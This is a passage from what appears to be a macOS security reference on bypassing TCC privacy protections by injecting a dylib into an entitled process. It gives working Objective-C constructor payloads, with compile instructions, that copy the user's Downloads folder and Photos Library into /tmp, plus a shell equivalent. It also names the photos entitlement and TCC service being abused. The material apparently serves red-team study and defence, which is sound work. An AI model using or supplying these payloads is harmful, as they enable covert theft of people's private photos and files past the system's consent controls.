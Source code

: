 ```
    NSString *picturesPath = [NSHomeDirectory() stringByAppendingPathComponent:@"Downloads"];
    NSString *tmpPhotosPath = @"/tmp/downloads";

    // Copy the contents recursively
    if (![fileManager copyItemAtPath:picturesPath toPath:tmpPhotosPath error:&error]) {
        NSLog(@"Error copying items: %@", error);
    }

    NSLog(@"Copy completed successfully.", error);

    fclose(stderr); // Close the file stream
}
```
```

**Shell**
Copy `$HOME/Dowloads` to `/tmp/downloads`.

```bash
cp -r "$HOME/Downloads" "/tmp/downloads"
```
```


### Photos Library

- **Entitlement**: `com.apple.security.personal-information.photos-library`
- **TCC**: `kTCCServicePhotos`

**ObjetiveC**
Copy `$HOME/Pictures/Photos Library.photoslibrary` to `/tmp/photos`.

```objectivec
#include <syslog.h>
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#import <Foundation/Foundation.h>

// gcc -dynamiclib -framework Foundation -o /tmp/inject.dylib /tmp/inject.m

__attribute__((constructor))
void myconstructor(int argc, const char **argv)
{
    freopen("/tmp/logs.txt", "w", stderr); // Redirect stderr to /tmp/logs.txt

    NSFileManager *fileManager = [NSFileManager defaultManager];
    NSError *error = nil;

    // Get the path to the user's Pictures folder
    NSString *picturesPath = [NSHomeDirectory() stringByAppendingPathComponent:@"Pictures/Photos Library.photoslibrary"];
    NSString *tmpPhotosPath = @"/tmp/photos";

    // Copy the contents recursively
    if (![fileManager copyItemAtPath:picturesPath toPath:tmpPhotosPath error:&error]) {
        NSLog(@"Error copying items: %@", error);
    }

    NSLog(@"Copy completed successfully.", error);

    fclose(stderr); // Close the file stream
}
```